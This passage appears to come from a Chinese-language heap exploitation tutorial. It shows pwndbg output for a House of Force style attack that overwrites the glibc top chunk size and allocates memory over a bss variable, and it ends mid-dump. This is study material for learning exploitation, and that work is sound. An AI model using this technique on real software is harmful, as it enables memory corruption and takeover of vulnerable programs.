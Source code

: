```
pwndbg> p/x &bss_var 
$6 = 0x602060
pwndbg> p/x ptr_top 
$7 = 0x603110
pwndbg> p/x evil_size 
$4 = 0xffffffffffffef30
```

```
pwndbg> heap
0x603000 PREV_INUSE {
  prev_size = 0, 
  size = 273, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x603110 PREV_INUSE {
  prev_size = 0, 
  size = 18446744073709547329, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x602050 PREV_INUSE {
  prev_size = 0, 
  size = 4281, 
  fd = 0x2073692073696854, 
  bk = 0x676e697274732061, 
  fd_nextsize = 0x6577207461687420, 
  bk_nextsize = 0x6f7420746e617720
}
0x603108 {
  prev_size = 0, 
  size = 0, 
  fd = 0xffffffffffffef41, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

这样就成功把 bss_var 分配了出来：

```
pwndbg> x/20xg 0x602050
0x602050:	0x0000000000000000	0x00000000000010b9
0x602060 <bss_var>:	0x2073692073696854	0x676e697274732061
0x602070 <bss_var+16>:	0x6577207461687420	0x6f7420746e617720
0x602080 <bss_var+32>:	0x6972777265766f20	0x00000000002e6574
0x602090:	0x0000000000000000	0x0000000000000000
0x6020a0 <stderr@@GLIBC_2.2.5>:	0x00007ffff7dd2540	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
pwndbg> x/20s 0x602050
0x602050:	""
0x602051:	""
0x602052:	""
0x602053:	""
0x602054:	""
0x602055:	""
```